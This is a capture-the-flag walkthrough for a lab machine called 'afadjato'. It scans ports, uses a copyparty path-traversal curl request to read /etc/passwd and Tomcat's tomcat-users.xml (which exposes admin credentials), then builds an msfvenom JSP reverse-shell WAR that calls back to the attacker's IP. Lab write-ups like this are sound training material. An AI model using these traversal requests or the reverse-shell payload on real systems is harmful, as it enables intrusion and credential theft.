




# afadjato 
upon scanning afadjato, we find two ports open
``` rustscan -a 10.0.13.1 -r1-65535 --ulimit 5000 
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
😵 https://admin.tryhackme.com

[~] The config file is expected to be at "/home/troylynx/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.0.13.1:9709
open 10.0.13.1:8080 

```

port 8080 and port 9709

visiting port 8080 we get a tomcat hompage 



and visiting port 9709 we get a different application, which looks like a media player



mapping the application we found out it was called copyparty, so we searched public exploit and we did got one

> curl -i -s -k -X  GET 'http://10.0.10.1:9709/.cpr/%2Fetc%2Fpasswd'
```
curl -i -s -k -X  GET 'http://10.0.13.1:9709/.cpr/%2Fetc%2Fpasswd'
HTTP/1.1 200 OK
Content-Length: 973
Connection: Keep-Alive
Date: Sun, 06 Oct 2024 14:39:56 GMT
Vary: Origin, PW, Cookie
Cache-Control: no-cache
Last-Modified: Sun, 22 Sep 2024 19:34:47 GMT
Accept-Ranges: bytes
Content-Type: application/octet-stream

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
BRCTF:x:1000:1000:BRCTF User:/home/BRCTF:/bin/bash

```

this payload will the /etc/passwd file from the target machine
it doesnt really do much since we want to get a shell on the machine
but remember there was another service (tomcat)

if we are able to login to tomcat we might be able to do something, so what we did was to use the exploit and change the path to refrence the config of tomcat 

> .cpr/%2Fopt%2Fapache-tomcat-10.1.29%2Fconf%2Ftomcat-users.xml

```
<!--
  <role rolename="tomcat"/>
  <role rolename="role1"/>
  <user username="tomcat" password="<must-be-changed>" roles="tomcat"/>
  <user username="both" password="<must-be-changed>" roles="tomcat,role1"/>
  <user username="role1" password="<must-be-changed>" roles="role1"/>
-->
	<role rolename="manager-gui"/>
	<user username="admin" password="hellyPass4Admin" roles="manager-gui"/>

</tomcat-users>

```

and we get the config file for tomcat, with some credentials at the end of the script

we use the credentials to login into tomcat,


 now its time to get a shell

we generated a vulnerable war file using msfvenom 

> msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.0.66 LPORT=443 -f war -o ghostshell.war

and set our listener on our attacker machine, then uploaded the war file and vistied the url, and we had a shell



### That is it for Afadjato


